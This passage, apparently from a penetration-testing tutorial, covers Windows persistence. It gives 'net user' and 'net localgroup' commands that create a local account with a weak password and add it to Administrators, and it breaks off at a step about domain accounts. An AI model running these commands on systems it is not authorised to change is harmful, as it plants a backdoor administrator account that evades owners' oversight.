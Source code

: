 **Persistence:**

Persistence methods can be as simple as adding a user to a system or as advanced as kernel-level rootkit that hides itself even from the Windows API making it virtually undetectable

1. Adding a User 

```
C:\Documents and Settings\Desktop> net user james password /add
```

   2. Add our new user to the relevant groups

```
C:\Documents and Settings\Desktop> net localgroup Administrators james /add
```

   3. If your client has a Windows domain, you can add users to the domain and add them to domain groups \(if u have sufficient privileges\)

```

```



